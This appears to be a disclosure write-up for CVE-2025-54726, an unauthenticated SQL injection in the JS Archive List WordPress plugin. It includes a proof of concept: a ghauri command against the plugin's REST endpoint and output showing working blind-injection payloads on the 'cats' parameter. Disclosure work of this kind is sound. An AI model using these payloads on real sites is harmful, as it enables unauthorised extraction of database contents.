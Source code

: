 # CVE-2025-54726
JS Archive List <= 6.1.5 - Unauthenticated SQL Injection

# Description

The JS Archive List plugin for WordPress is vulnerable to SQL Injection in all versions up to, and including, 6.1.5 due to insufficient escaping on the user supplied parameter and lack of sufficient preparation on the existing SQL query.  This makes it possible for unauthenticated attackers to append additional SQL queries into already existing queries that can be used to extract sensitive information from the database.

## Details

- **Type**: plugin
- **Slug**: jquery-archive-list-widget
- **Affected Version**: 6.1.5
- **CVSS Score**: 7.5
- **CVSS Rating**: High
- **CVSS Vector**: CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N
- **CVE**: CVE-2025-54726
- **Status**: Active

POC
---

```
ghauri  -u "http://localhost/wp-json/jalw/v1/archive?cats=1&exclusionType=exclude"


  ________.__                        .__  {1.4.1}
 /  _____/|  |__ _____   __ _________|__|
/   \  ___|  |  \\__  \ |  |  \_  __ \  |
\    \_\  \   Y  \/ __ \|  |  /|  | \/  |
 \______  /___|  (____  /____/ |__|  |__|
        \/     \/     \/         https://github.com/r0oth3x49
                                 An advanced SQL injection detection & exploitation tool.



[*] starting @ 16:39:05 /2025-09-25/

[16:39:05] [INFO] testing connection to the target URL
Ghauri resumed the following injection point(s) from stored session:
---
Parameter: cats (GET)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
    Payload: cats=1 AND 01609=1609&exclusionType=exclude

    Type: time-based blind
    Title: MySQL >= 5.0.12 time-based blind (IF - comment)
    Payload: cats=if(now()=sysdate(),SLEEP(5),0)&exclusionType=exclude
---
[16:39:05] [INFO] testing MySQL
[16:39:05] [INFO] confirming MySQL
[16:39:06] [INFO] the back-end DBMS is MySQL

```
